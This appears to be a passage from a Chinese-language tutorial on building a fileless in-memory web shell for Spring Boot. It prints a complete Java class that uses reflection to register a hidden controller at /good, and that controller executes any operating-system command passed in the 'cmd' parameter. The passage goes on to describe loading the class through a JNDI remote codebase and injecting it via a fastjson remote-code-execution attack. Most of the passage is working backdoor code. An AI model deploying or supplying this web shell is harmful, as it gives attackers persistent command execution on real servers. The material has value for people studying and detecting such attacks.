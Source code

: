     import javax.servlet.http.HttpServletRequest;  
    import javax.servlet.http.HttpServletResponse;  
    import java.io.IOException;  
    import java.lang.reflect.InvocationTargetException;  
    import java.lang.reflect.Method;  
    public class Evil {  
        public Evil() throws Exception{  
            // 关于获取Context的方式有多种  
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.  
                    currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);  
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);  
            Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");  
            method.setAccessible(true);  
            // 通过反射获得该类的test方法  
            Method method2 = Evil.class.getMethod("test");  
            // 定义该controller的path  
            PatternsRequestCondition url = new PatternsRequestCondition("/good");  
            // 定义允许访问的HTTP方法  
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();  
            // 构造注册信息  
            RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);  
            // 创建用于处理请求的对象，避免无限循环使用另一个构造方法  
            Evil injectToController = new Evil("aaa");  
            // 将该controller注册到Spring容器  
            mappingHandlerMapping.registerMapping(info, injectToController, method2);  
        }  
      
        private Evil(String aaa) {  
        }  
      
        public void test() throws IOException {  
            // 获取请求  
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();  
            // 获取请求的参数cmd并执行  
            // 类似于PHP的system($_GET["cmd"])  
            Runtime.getRuntime().exec(request.getParameter("cmd"));  
        }  
      
    }  
    

同时修改JNDIServer类中的代码

将`Reference reference = new Reference("VulClass",
"com.evalshell.server.VulClass","http://127.0.0.1:8083/");` 替换成 `Reference
reference = new
Reference("Evil","com.evalshell.server.Evil","http://127.0.0.1:8083/");`

最后演示一下，使用fastjson RCE进行攻击并动态写入我们的内存马

至此，我们已经完成SpringBoot下的无文件内存马的实现！
